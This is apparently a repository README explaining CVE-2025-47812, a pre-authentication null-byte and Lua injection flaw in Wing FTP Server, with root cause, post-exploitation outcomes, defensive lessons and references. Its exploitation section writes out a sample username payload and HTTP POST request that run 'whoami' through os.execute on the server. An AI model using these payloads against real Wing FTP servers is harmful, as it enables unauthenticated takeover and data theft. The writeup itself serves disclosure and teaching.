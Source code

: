 # CVE-2025-47812 — Wing FTP Server Null-Byte & Lua Injection (RCE)

### Overview
- **CVE ID:** CVE-2025-47812  
- **Published:** June 30, 2025  
- **Severity (CVSS):** 9.8 (Critical)  
- **Affected Software/Versions:** Wing FTP Server (all platforms, versions **before 7.4.4**)  
- **Vulnerability Type:** Null-byte injection + Lua code injection leading to Remote Code Execution (RCE)  

**Summary:**  
A flaw in how **Wing FTP Server processes null bytes in username input** during authentication allows attackers to inject arbitrary **Lua code**.  
This enables an **unauthenticated, remote attacker** to execute arbitrary OS commands as **SYSTEM (Windows)** or **root (Linux/Unix)**.  

Because the exploit is **pre-authentication and trivial to trigger**, this is considered **Critical (RCE)** and has been observed in **active exploitation campaigns**.

---

### Context
To understand the impact, it’s key to examine **how Wing FTP handles authentication** and why this bug is so dangerous:

- **Wing FTP Server** is a widely used cross-platform managed file transfer solution.  
- During authentication, **username values are parsed and stored** in temporary session files.  
- The server incorrectly processes **null-byte (`%00`) characters** inside username values.  
- **The Problem:** Attackers can append **Lua code after the null byte**, which is then passed into the Lua interpreter running inside Wing FTP.  
- **The Result:** The injected code executes on the server with **full privileges**.  

This turns a simple login attempt into **unauthenticated remote code execution**.

---

### Root Cause
The vulnerability comes down to **unsafe input handling**:

- The authentication routine **does not properly sanitize null bytes** in input.  
- After truncation at the null byte, the **rest of the attacker-controlled payload is still parsed**.  
- Because Wing FTP embeds **Lua scripting**, the malicious payload is interpreted as Lua code.  
- The combination of **null-byte truncation + embedded scripting** = full RCE.

---

### Exploitation (Step-by-Step)

#### 1. Locate the Login Endpoint
The attacker connects to the Wing FTP Server login page or endpoint (commonly on port 5466 for the web admin console):
```
https://victim-ftp.local:5466/admin_login.html
```

#### 2. Craft the Malicious Payload
The attacker prepares a username containing a null byte followed by Lua code.  
Example payload (educational only):
```
Username: validuser%00; os.execute("whoami")
Password: anything
```

#### 3. Send the Request
A crafted HTTP POST login request may look like:
```http
POST /admin_login.html HTTP/1.1
Host: victim-ftp.local:5466
Content-Type: application/x-www-form-urlencoded

username=admin%00;os.execute('whoami')&password=test
```

#### 4. Observe Execution
The null byte truncates normal parsing, but the injected `os.execute()` Lua code is run inside the server.  
Typical response or logged output might show:
```
nt authority\system
```
on Windows, or
```
root
```
on Linux.

This confirms **remote code execution** with the highest system privileges.

---

### Post Exploitation
Once code execution is achieved, attackers can:

* Deploy **web shells** or reverse shells for persistence.  
* Create or replace FTP accounts for backdoor access.  
* Exfiltrate sensitive files directly from the FTP repository.  
* Move laterally across the enterprise environment.  

Huntress and others reported **real-world attacks** using this exploit to drop Lua-based backdoors.  
Rapid7 also released a **Metasploit module** for controlled testing:  
`exploit/multi/http/wingftp_null_byte_rce`

---

### Proof of Concept

A **minimal educational PoC** was published by security researcher **Julien Ahrens** and later adapted by Huntress Labs. [`poc/exploit.py`](poc/exploit.py) poc credit goes to https://github.com/0xcan1337/CVE-2025-47812-poC/

The PoC demonstrates:  
- Injecting a null byte into the username field.  
- Executing attacker-controlled Lua commands.  
- Confirming arbitrary command execution (e.g., `whoami`).  

⚠️ Note: PoCs should only be used in controlled lab/test environments.

---

### Lessons Learned

1. **Null-byte injection is still alive.** Old tricks like `%00` can still break modern code if not handled securely.  
2. **Embedded interpreters are risky.** Allowing user-controlled input to reach Lua, Python, or JavaScript engines is dangerous.  
3. **Pre-auth RCE = maximum severity.** Bugs before authentication expose the system to the internet with no barrier.  
4. **Patch quickly.** Exploits were seen in the wild within days of disclosure.  
5. **Defense-in-depth matters.** Web admin panels should not be exposed directly to the internet without network-level protections.  

---

### References

* [Huntress Blog — Wing FTP Server RCE exploited in the wild (CVE-2025-47812)](https://www.huntress.com/blog/wing-ftp-server-remote-code-execution-cve-2025-47812-exploited-in-wild)  
* [HelpNetSecurity — Critical Wing FTP flaw exploited (CVE-2025-47812)](https://www.helpnetsecurity.com/2025/07/11/critical-wing-ftp-server-vulnerability-exploited-in-the-wild-cve-2025-47812/)  
* [SecPod Blog — Active exploitation of Wing FTP CVE-2025-47812](https://www.secpod.com/blog/wing-ftp-under-siege-critical-vulnerability-actively-exploited/)  
* [Metasploit Module: exploit/multi/http/wingftp_null_byte_rce](https://www.rapid7.com/db/modules/exploit/multi/http/wingftp_null_byte_rce/)  
* [Vendor Advisory — Wing FTP Server v7.4.4 Release Notes](https://www.wftpserver.com/serverhistory.htm)  
* [CVE Entry — CVE-2025-47812 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-47812)  
* [NVD Entry — CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812)  
